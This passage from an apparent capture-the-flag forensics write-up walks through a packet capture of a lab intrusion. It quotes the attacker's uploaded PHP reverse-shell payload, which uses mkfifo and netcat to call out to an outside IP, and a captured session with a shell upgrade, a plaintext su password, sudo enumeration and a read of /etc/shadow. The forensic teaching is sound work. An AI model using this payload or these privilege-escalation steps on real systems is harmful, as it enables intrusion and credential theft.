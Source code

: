 With this stream we can see they used upload.php to upload their payload, payload.php using netcat.

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

We see a HTTP/1.1 200 OK which means that it was successful.

** 3) What password did the attacker use to privesc?**

Luckily for us, netcat transmits everything in plaintext. So we can actually middleman that password used along with their actions before switching to a more obfuscated shell.

Jump through the streams until you get to one with plaintext commands.

```
tcp.stream eq 3
```

Following this stream, we can see a lot of commands used by the attacker.

```
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

james@overpass-production:/var/www/html/development/uploads$ cd ~
cd ~
james@overpass-production:~$ sudo -l]
sudo -l]
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
```